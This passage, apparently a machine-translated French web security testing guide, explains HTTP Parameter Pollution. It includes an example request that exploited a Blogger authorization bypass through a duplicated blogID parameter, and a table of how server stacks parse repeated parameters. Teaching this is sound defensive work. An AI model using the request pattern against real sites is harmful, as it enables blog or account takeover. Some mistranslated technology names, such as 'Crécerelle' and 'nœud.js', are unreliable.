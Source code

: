 ### Contournement de l'authentification

Une vulnérabilité HPP encore plus critique a été découverte dans *Blogger*, la plate-forme de blogs populaire. Le bogue permettait à des utilisateurs malveillants de s'approprier le blog de la victime en utilisant la requête HTTP suivante (`https://www.blogger.com/add-authors.do`) :

```html
POST /add-authors.do HTTP/1.1
[...]

security_token=attackertoken&blogID=attackerblogidvalue&blogID=victimblogidvalue&authorsList=goldshlager19test%40gmail.com(attacker email)&ok=Invite
```

La faille résidait dans le mécanisme d'authentification utilisé par l'application Web, car le contrôle de sécurité était effectué sur le premier paramètre `blogID`, alors que l'opération réelle utilisait la seconde occurrence.

### Comportement attendu par le serveur d'applications

Le tableau suivant illustre le comportement de différentes technologies Web en présence de plusieurs occurrences du même paramètre HTTP.

Étant donné l'URL et la chaîne de requête : `http://example.com/?color=red&color=blue`

  | Backend du serveur d'applications Web | Résultat d'analyse | Exemple |
  |---------------------------------------|--------------------|---------|
  | ASP.NET / IIS | Toutes les occurrences concaténées avec une virgule | couleur=rouge,bleu |
  | ASP/IIS | Toutes les occurrences concaténées avec une virgule | couleur=rouge,bleu |
  | .NET Core 3.1 / Crécerelle | Toutes les occurrences concaténées avec une virgule | couleur=rouge,bleu |
  | .NET 5 / Crécerelle | Toutes les occurrences concaténées avec une virgule | couleur=rouge,bleu |
  | PHP/Apache | Dernière occurrence uniquement | couleur=bleu |
  | PHP / Zeus | Dernière occurrence uniquement | couleur=bleu |
  | JSP, Servlet / Apache Tomcat | Première occurrence uniquement | couleur=rouge |
  | JSP, servlet/serveur d'application Oracle 10g | Première occurrence uniquement | couleur=rouge |
  | JSP, Servlet / Jetty | Première occurrence uniquement | couleur=rouge |
  | IBMLotus Domino | Dernière occurrence uniquement | couleur=bleu |
  | Serveur HTTP IBM | Première occurrence uniquement | couleur=rouge |
  | nœud.js / express | Première occurrence uniquement | couleur=rouge |
  | mod_perl, libapreq2 / Apache | Première occurrence uniquement | couleur=rouge |
  | CGI Perl / Apache | Première occurrence uniquement | couleur=rouge |
  | mod_wsgi (Python) / Apache | Première occurrence uniquement | couleur=rouge |
  | Python / Zopé | Toutes les occurrences dans le type de données List | couleur=['rouge','bleu'] |
